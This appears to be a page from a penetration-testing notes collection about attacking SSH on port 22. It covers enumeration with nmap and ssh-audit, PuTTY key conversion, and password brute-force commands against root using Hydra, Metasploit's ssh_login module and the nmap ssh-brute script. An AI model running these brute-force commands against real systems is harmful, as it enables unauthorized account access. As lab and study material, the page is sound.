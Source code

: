 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSH (22)

## 101

```bash
ssh user1@10.10.10.10 -p 2222 'ls /home/user1/'
```

## Enumeration

Supported authentication methods.

```bash
nmap -p22 -script=ssh-auth-methods <IP>
```

## Audit

{% code overflow="wrap" %}
```bash
$ ssh-audit 192.168.0.24
# general
(gen) banner: SSH-1.99-OpenSSH_2.9p2
(gen) protocol SSH1 enabled
(gen) software: OpenSSH 2.9p2
(gen) compatibility: OpenSSH 2.5.0-6.6, Dropbear SSH 0.47-0.52
(gen) compression: enabled (zlib)

<SNIP>
```
{% endcode %}

## Brute Force

{% tabs %}
{% tab title="Hydra" %}
{% code overflow="wrap" %}
```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.0.24:22 -t 4
```
{% endcode %}
{% endtab %}

{% tab title="Metasploit" %}
```bash
$ msfconsole -q
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_AS_PASS true
USER_AS_PASS => true
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.57.134
RHOSTS => 192.168.57.134
```
{% endtab %}

{% tab title="Nmap" %}
```bash
nmap -p 22 --script ssh-brute potato
```
{% endtab %}
{% endtabs %}

## PPK2PEM

Convert a Putty user key file (`.ppk`) to an SSH `.pem` file.

```bash
# Converting PPK to PEM
sudo puttygen key.ppk -O private-openssh -o key.pem
# Assigning the appropriate permissions
sudo chmod 600 key.pem
# Confirming permissions
ls -l key.pem
# Using public key authentication
ssh root@10.10.11.227 -i key.pem
```

For an example of the above process check [Keeper](../../boxes/easy/keeper.md#keepass-exploitation).
